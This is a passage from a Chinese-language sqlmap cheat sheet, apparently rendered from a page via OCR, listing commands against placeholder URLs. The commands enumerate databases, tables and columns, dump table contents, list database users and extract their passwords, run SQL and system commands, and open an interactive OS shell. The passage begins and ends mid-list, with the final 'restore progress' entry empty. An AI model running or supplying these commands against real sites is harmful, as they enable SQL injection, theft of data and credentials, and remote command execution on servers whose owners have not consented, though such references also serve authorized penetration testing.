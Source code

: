 ```
```
判断列名 (columns): 
```
sqlmap -u "http://www.test.php?id=1"-D 数据库名 -T 表名 --column
```
获取字段: 
```
sqlmap -u "http://www.test.php?id=1" -D 数据库名 -T 表名 -C 列名 --dump
```

### 进阶使用
获取当前用户名称：
```
sqlmap -u "http://url/news?id=1" --current-user
```
获取当前数据库名称：
```
sqlmap -u "http://url/news?id=1" --current-db
```
枚举所有数据库名：
```
sqlmap -u "http://url/news?id=1" --dbs
```
列出指定数据库的表名：
```
sqlmap -u "http://url/news?id=1" -D "db_name" --tables
```
列出指定数据库对应表的字段：
```
sqlmap -u "http://url/news?id=1" -D "db_name" -T "table_name" --columns
```
获取字段内容：
```
sqlmap -u "http://url/news?id=1" -D "db_name" -T "table_name" -C "column_name" --dump
```
指定数据库类型：
```
sqlmap -u "http://url/news?id=1" --dbms "Mysql" --users
```
列出数据库用户：
```
sqlmap -u "http://url/news?id=1" --users
```
枚举指定的数据库用户：
```
sqlmap -u "http://url/news?id=1" --users -U root
```
数据库用户密码：
```
sqlmap -u "http://url/news?id=1" --passwords
```
执行指定 sql 命令：
```
sqlmap -u "http://url/news?id=1" --sql-shell/--os-cmd
```
执行系统命令：
```
sqlmap -u "http://url/news?id=1" --os-cmd=whoami
```
系统交互 shell：
```
sqlmap -u "http://url/news?id=1" --os-shell
```
保存进度：
```
sqlmap -u "http://url/news?id=1" --dbs -o"sqImap.log"
```
恢复已保存进度：
```
```
